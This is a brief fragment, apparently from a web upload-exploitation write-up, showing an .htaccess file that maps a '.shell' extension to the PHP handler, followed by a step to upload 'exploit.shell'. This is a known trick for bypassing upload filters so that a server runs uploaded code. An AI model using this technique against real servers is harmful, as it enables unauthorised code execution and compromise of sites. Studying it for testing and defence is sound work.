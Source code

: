 filename=".htaccess"

Content-Type: text/plain

AddType application/x-httpd-php .shell


upload exploit.shell

